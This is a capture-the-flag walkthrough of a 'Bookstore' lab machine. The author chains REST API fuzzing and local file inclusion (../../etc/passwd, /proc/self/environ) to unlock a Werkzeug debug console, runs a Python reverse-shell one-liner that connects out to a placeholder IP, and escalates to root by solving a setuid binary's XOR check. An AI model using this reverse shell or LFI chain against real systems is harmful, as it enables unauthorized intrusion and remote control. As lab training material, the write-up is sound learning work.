# 📕Bookstore

> “They said it was a bookstore. They didn’t say it was a gateway to shell and root!”

***

## Introduction&#x20;

## 👋 Hi, I’m Shivam (taauxick)

**A curious mind with a keyboard**, currently exploring the world of ethical hacking and CTFs. This time, I stumbled into a seemingly innocent _bookstore_ — and walked out with root access.\
What started with a basic port scan quickly turned into a treasure hunt of APIs, forgotten debugger consoles\
This writeup covers my journey from initial access to root — with some light sarcasm, a few missteps, and just enough LFI to keep things interesting.




Check out my portfolio showcasing projects, write-ups, and my journey in cybersecurity:&#x20;



Here, we’re not just hacking for the thrill. We’re hacking because these roots practically beg for attention.&#x20;

## 🔎 Initial Recon

### Rust scan Output:

Straight outta port scanning — rust scan revealed three open ports:

* **22 (SSH)** – standard
* **80 (HTTP)** – classic
* **5000 (HTTP)** – another http but rustscan gave a robots.txt entry👀( api)\
  isn't that what we needed in this?

Without wasting time, went for the web.



didn't wasted much time here because i got something spicier so..

<figure><figcaption></figcaption></figure>

Nothing useful on the surface.&#x20;

So the focus shifted to the suspicious **port 5000/api**





The following routes were listed:

* `/api/v2/resources/books/all` – fetches all books in JSON
* `/api/v2/resources/books/random4` – returns 4 random books
* `/api/v2/resources/books?id=1` – search by ID
* `/api/v2/resources/books?author=J.K. Rowling` – search by author
* `/api/v2/resources/books?published=1993` – search by year
* `/api/v2/resources/books?author=...&published=...` – multi-param support

It was clear — the machine was hinting at **REST API fuzzing**, param-based searching, and possibly **parameter injection or LFI**.



## 🛠️ Attempted Exploitation on `/v2`

At this point, tried a few tricks:

* Played with the `id`, `author`, and `published` parameters.
* Attempted LFI payloads like using `../../../../etc/passwd` in ID or author.
* Ran **ffuf** on the parameters to fuzz hidden functionalities.

**Result:** Nada. Dry desert. No errors, no leaks, no LFI.

The `/v2/` API seemed safe — **too safe**. Suspicious.



## 🕳️ Pivot to `/v1/`

CTF gut instinct kicked in: _If there’s a v2, there has to be a v1._\
Started fuzzing around `/api/v1/`, and bingo — found a new endpoint.Calling it **without** or **invalid**  **parameters** returned a lovely Python **traceback error**. That’s the kind of leak a hacker dreams about.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

From the Python error page, inferred that parameters were being handled poorly. Tried standard LFI tricks — and got lucky.

Using LFI, I was able to view sensitive files like:

* `/etc/passwd`

It was confirmed — **LFI was fully working on the v1 API**.

found a user sid

<figure><figcaption></figcaption></figure>

## 🧠 The Console Button & PIN Mystery

I noticed something strange on the error page — a **“Console”** button



Clicked it out of curiosity — and it asked for a **PIN**.

<figure><figcaption></figcaption></figure>

Time to go back to  LFI checked  some files

and `found /proc/self/environ` helpful

<figure><figcaption></figcaption></figure>

***

## 🧭 Alternate Enumeration Path – Missed Observation

While my exploitation path relied on discovering the LFI and pulling the debugger PIN from `/proc/self/environ`, there was **another path to reach the same goal**, which I later noticed post-exploitation.

### 🔐 Login Page Source Code Disclosure

Upon visiting `http://bookstore.thm/login.html`, the login functionality seemed broken or non-functional. But when checking the **page source** via:

`view-source:http://bookstore.thm/login.html`

A commented line stood out:

`<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->`

This line directly **leaks the location** of the debugger PIN:

***

🧭 Alternate Enumeration Path – Missed Observation

### 🧪 Werkzeug Debugger Enumeration

Alongside, we also observed that port **5000** runs a Werkzeug server (common in Flask apps).

`http://bookstore.thm:5000/console`

Shows the **Werkzeug Debug Console** — a known, powerful Python shell that appears during unhandled exceptions in Flask apps.

But it’s **PIN protected** by default to avoid abuse.

The page source hint (`.bash_history`) would’ve directly guided me to extract the PIN via LFI and **unlock this console immediately** — a clean and elegant path to shell access

***

That PIN, once entered, unlocked **a Python console right inside the browser.**



## 🐚 Shell Access via Python Console

The browser-based Python shell allowed command execution.\
Played around a bit, verified that it’s actually executing code on the server.

From here, inserted a basic reverse shell payload.

`import socket,os,pty;s=socket.socket();s.connect(("IP",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")`



On listener, got a callback — and just like that:

**User shell obtained.**

stabilized the shell first

Captured the first flag.



## 🧗‍♂️ Privilege Escalation – Enter the Binary

Started standard privesc enumeration and found something interesting:

An ELF binary named `try-harder`, located somewhere juicy.\
It was:

* **Owned by root**
* **Setuid enabled**
* **Asked for a “magic number”**

Suspicious af.

 

## 🧠 Reverse Engineering the Binary

Transferred it over to my system via Python HTTP server and loaded it into Ghidra.


Inside, the logic was simple:

* If you pass “magic number” as input, it spawns a root shell



```
    local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
```

Here the variable **local\_1c** ( user input) is xored with 0x1116 and with another variable **local\_18** having value 0x5db3 and if the ouput from this operation is equal to 0x5dcd21f4, we get a root shell.

### XOR Property

```
  c = a ^ b 
  a = c ^ b
```

If we XOR a with b to get c, then we can XOR c with b to get a. Using this logic, we can get the value of the variable that we want.

0x5dcd21f4 ^ 0x1116 ^ 0x5db3

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

\
DONE!!!!!!!!!
